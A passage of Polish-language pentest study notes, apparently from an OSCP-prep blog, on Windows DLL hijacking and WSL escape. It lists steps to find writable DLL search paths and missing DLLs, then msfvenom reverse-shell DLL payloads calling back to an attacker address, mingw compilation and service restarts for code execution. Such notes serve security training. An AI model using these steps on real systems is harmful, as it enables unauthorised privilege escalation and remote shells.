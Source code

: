 <p>#WinPEAS moze nam podpowiedziec 1) ze mamy prawo zapisu do folderow w ktorych szuka sie domyslnie .dll (Application path or directory #&gt; C:\Windows\System32 #&gt; C:\Windows\System #&gt; C:\Windows #&gt; C:\Program Files #&gt; The PATH environment variable)  ORAZ do ktorych binarem mozemy nadpisac.<br>#&gt; Uzyj softu Proces Monitor np. Procmon z Sysinternals aby poznać pobierane .dll (filts: PAth &gt; ends with &gt; .dll  &gt; then Include &gt; button Apply)  (alternatywnie zrob na Kalim strings na binarke). <br>#&gt; pokaze ci nazwe poszukiwanej binarki i gdzie szuka<br>#&gt; msfvenom -p windows/x64/shell_reverse_tcp<br>LHOST= LPORT=PORT -f dll &gt; hijackme.dll<br>#&gt; sc stop $usluga-z-dll<br>#&gt; sc start $usluga-z-dll<br>###TCM###<br>#sc stop dllsvc  #&gt;  sc start dllsvc   aby uruchomic<br><strong><mark style="background-color:#f1a8ff" class="has-inline-color">###oscp23###</mark></strong><br>#bez bezpiecznego trybu najpierw szuka dll: folder aplikacji &gt; biezacy folder || z bezpiecznym trubem bieżący folder odchodzi na koniec<br>#wciskamy do brakujących przy wykonaniu aplikacji .dll<br>#podobnie jak w .exe szukamy binarek do ktorych mamy prawo: Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running’}<br># icacs „TU-sciezka-do-exe”<br># musimy użyć narzędzia do moniorowania procesów aby zlokalizować DLL z których korzysta w/w exe np. <strong>Procmon64.exe </strong>(ale taki program moze wlaczyc tylko Administrator ; w pentestach kopiowanie .exe na inna maszyne lokalna i tam sprawdzenie dll  ;  ps. ale probuj tez „procexp64.exe” bo mi poszlo na slabym userze) <br>#&gt; filtr: Process name is NazwaAplikacji.exe #&gt; lista jest pusta i musimy zrestartować usługę PS: Restart-Service BetaService (gdzie BetaService to nazwa usługi) #&gt; teraz jest dużo procesów patrz na Operation: CreateFile (ja sobi dodałem filte) #&gt; znalazł MyDLL.dll z info o braku znalezienia „NAME NOT FOUND”, parz tez kolejnosc szukania od gory <br>#&gt; PS: $env:path <br>#&gt; <a href="https://3haker.pl/kod-dll-w-c-do-kompilacji/">kod DLL</a> w C do kompilacji <br>#&gt; x86_64-w64-mingw32-gcc dll.c –shared -o myDLL.dll <br>#&gt; wrzucamy .dll do odpowiedniego folderu  <br>#&gt;  Restart-Service BetaService i mamy wykonanie kodu<br>#—<br>#msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.1.3 lport=8888 -f dll &gt; shell.dll</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="WSL" ez-toc-data-id="#WSL"></span>WSL:<span class="ez-toc-section-end"></span></h4>



<p><em>Czyli na Windowsie moze miec odpalonego Linuxa</em></p>



<p>#mount -t drvfs C: /mnt/test  (Adamski musial podlaczyc dysk aby uciec z WSL w terminalu Windows  ;  wcześniej sprawdzał na linux czy ma /etc/wsl.conf i przez cat czy: [automount]  ;  korzystal z <a href="https://medium.com/@gulfsteve/hacking-with-wsl2-ede3e649e08d">tego</a> poradnika)<br><strong>###by TCM###</strong><br>#niby jestes na Windows ale jak zrobisz „whoami” to bedzie ze „root”<br>#uname -a i oprócz Linux powinien byc tez Microsoft</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Tools" ez-toc-data-id="#Tools"></span>Tools<span class="ez-toc-section-end"></span></h4>


